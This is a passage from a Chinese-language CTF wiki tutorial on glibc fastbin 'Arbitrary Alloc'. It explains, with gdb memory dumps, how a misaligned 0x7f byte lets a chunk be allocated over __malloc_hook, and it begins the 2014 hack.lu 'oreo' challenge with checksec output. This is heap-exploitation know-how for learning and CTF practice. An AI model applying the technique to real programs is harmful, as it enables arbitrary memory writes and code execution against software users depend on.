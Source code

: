 ```
Fastbins[idx=0, size=0x10]
Fastbins[idx=1, size=0x20]
Fastbins[idx=2, size=0x30]
Fastbins[idx=3, size=0x40]
Fastbins[idx=4, size=0x50]
Fastbins[idx=5, size=0x60]
Fastbins[idx=6, size=0x70]
```
通過觀察發現 0x7ffff7dd1af5 處可以現實錯位構造出一個0x000000000000007f
```
0x7ffff7dd1af0 0x60 0x2	0xdd 0xf7 0xff 0x7f	0x0	0x0
0x7ffff7dd1af8 0x0  0x0	0x0	0x0	0x0	0x0	0x0	0x0

0x7ffff7dd1af5 <_IO_wide_data_0+309>:	0x000000000000007f
```
因爲 0x7f 在計算 fastbin index 時，是屬於 index 5 的，即 chunk 大小爲 0x70 的。

```c
##define fastbin_index(sz)                                                      \
    ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
```
（注意sz的大小是unsigned int，因此只佔4個字節）


而其大小又包含了 0x10 的 chunk_header，因此我們選擇分配 0x60 的 fastbin，將其加入鏈表。
最後經過兩次分配可以觀察到 chunk 被分配到 0x7ffff7dd1afd，因此我們就可以直接控制 __malloc_hook的內容(在我的libc中__realloc_hook與__malloc_hook是在連在一起的)。

```
0x4005a8 <main+66>        call   0x400450 <malloc@plt>
 →   0x4005ad <main+71>        mov    QWORD PTR [rbp-0x8], rax

 $rax   : 0x7ffff7dd1afd

0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0xfff7a92e20000000	0xfff7a92a0000007f
0x7ffff7dd1b0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000

```


### 小總結
Arbitrary Alloc 在 CTF 中用地更加頻繁。我們可以利用字節錯位等方法來繞過 size 域的檢驗，實現任意地址分配 chunk，最後的效果也就相當於任意地址寫任意值。

## 2014 hack.lu oreo
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/fastbin-attack/2014_hack.lu_oreo)

### 基本分析

```shell
➜  2014_Hack.lu_oreo git:(master) file oreo
oreo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f591eececd05c63140b9d658578aea6c24450f8b, stripped
➜  2014_Hack.lu_oreo git:(master) checksec oreo
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_spirit/2014_Hack.lu_oreo/oreo'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
